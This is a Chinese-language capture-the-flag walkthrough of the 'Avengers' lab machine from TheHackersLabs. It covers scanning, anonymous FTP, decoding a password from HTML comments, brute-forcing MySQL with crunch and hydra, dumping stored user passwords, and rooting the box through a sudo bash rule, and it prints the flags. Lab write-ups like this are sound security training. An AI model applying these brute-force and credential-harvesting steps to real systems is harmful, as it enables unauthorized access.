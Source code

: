 # Avengers

2025.03.02 https://thehackerslabs.com/avengers/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

ftp 可匿名登陆，下载文件：

```
-rw-r--r--    1 0        0             459 Mar 24  2024 FLAG.txt
-rw-r--r--    1 0        0             417 Mar 24  2024 credential_mysql.txt.zip
```

FLAG.txt 中没什么有用信息。credential_mysql.txt.zip 有密码，使用 john 进行破解，没找到密码。

扫描 web 读取 robots.txt 文件：

```
User-agent: *
Disallow: /webs/
Disallow: /mysql/
```

访问 http://192.168.5.40/mysql/database.html 在源码中有提示：

```
<!-- You have found a password of a user that is hidden out there, keep looking... -->
<!-- password: V201V2JHTnVjR2haYmtveFpFZEZQUT09 -->
```

同时在这里发现了用户名 http://192.168.5.40/php/login.php:

```
$servername = "192.168.28.7";
$username = "h4lc3";
$password = "***********";
$dbname = "db_true";
```

发现用户名 h4lc3 使用上面发现的密码进行登陆 ssh 和 mysql 都不对，再看上面的数据库连接密码是 8 个星号，这里长度不对，使用 cyberchef 进行 base64 解码 3 次，得到了 11 位的字符串 fuerzabruta 再次爆破 ssh 和 mysql 也登陆不了。

访问这个 http://192.168.5.40/webs/secret.html 验证页面，输入刚才得到的密码 fuerzabruta ，得到了一个用户名 hulk 使用这个用户名登陆 ssh，登陆成功。

寻找 user flag：

```
hulk@TheHackersLabs-Avengers:~$ cat wait/decrypt.txt
I'm going to provide you with a decryption password for some file, guess which file could be the one that decrypts this...

Password: decryptavengers

hulk@TheHackersLabs-Avengers:~$ cat mysql/hint/zip/shit_how_they_did_know_this_password.txt

Congratulations, you found the password to decrypt the compressed FTP .zip file

Now you know what to do with this... I guess

password: (You thought I would give you the password so quickly, because if you look closely at the file you would see the password more clearly...)
```

提到之前发现的 credential_mysql.txt.zip 它的解压密码就是这个文件的文件名 shit_how_they_did_know_this_password 解压后的内容显示：

```
Listen, stif, I sent you the password of my MySQL user by email, but I think you didn't get it, I'll send it to you here:

User: hulk
Password: fuerzabrutaXXXX

Remember to change the "XXXX" to a secure number combination before sending.

HINT: it is in a range of 0-3000
```

需要对 mysql 的登陆密码进行爆破：

```
crunch 15 15 -t fuerzabruta%%%% > pass
hydra -t 32 -l hulk -P pass mysql://192.168.5.40
[3306][mysql] host: 192.168.5.40   login: hulk   password: fuerzabruta2024
```

登陆 mysql，进行枚举：

```
MySQL [db_flag]> use db_true;
MySQL [db_true]> show tables;
+-------------------+
| Tables_in_db_true |
+-------------------+
| nothing           |
+-------------------+

MySQL [db_true]> select * from nothing;
+----+--------------+-----------------------------------------------+
| id | nothing_user | nothing_password                              |
+----+--------------+-----------------------------------------------+
|  1 | nada         | JAHDdjwoaiJDWIAJDsDJWAjdwaiojKDAKAkdoaKDPOAA= |
+----+--------------+-----------------------------------------------+

MySQL [db_true]> use no_db;
MySQL [no_db]> show tables;
+-----------------+
| Tables_in_no_db |
+-----------------+
| passwords       |
| users           |
+-----------------+

MySQL [no_db]> select * from users;
+----+--------+---------------+
| id | user   | password      |
+----+--------+---------------+
|  1 | stif   | escudoamerica |
|  2 | hulk   | fuerza*****   |
|  3 | antman | ******        |
|  4 | thanos | NOPASSWD      |
+----+--------+---------------+

MySQL [no_db]> select * from passwords;
+----+--------------------------------------------------------------+----------------------------------------------------+
| id | password                                                     | description                                        |
+----+--------------------------------------------------------------+----------------------------------------------------+
|  1 | wr9UZSBjcmVlcyBxdWUgc2VyaWEgdGFuIGZhY2lsPyBKQUpBSkFKQUpKQUpB | Desencripta esa contraseña para poder ser root ;)  |
+----+--------------------------------------------------------------+----------------------------------------------------+
```

系统用户 stif 的登陆密码是 escudoamerica ，切换到该用户后，发下了 user flag，但是没权限读取，需要 root 权限。

sudo -l 显示：

```
(ALL : ALL) NOPASSWD: /usr/bin/bash
(ALL : ALL) NOPASSWD: /usr/bin/unzip
```

直接提权拿到 2 个 flag：

```
stif@TheHackersLabs-Avengers:~$ sudo /usr/bin/bash
root@TheHackersLabs-Avengers:/home/stif# ls
flag  game.py  pista  user.txt
root@TheHackersLabs-Avengers:/home/stif# cat user.txt
31c29fb1d045f2d17f44fa2921ef4c32  -
root@TheHackersLabs-Avengers:~# cat root.txt
658e8256a7b4cf93766dc6ef546a2825  -
```
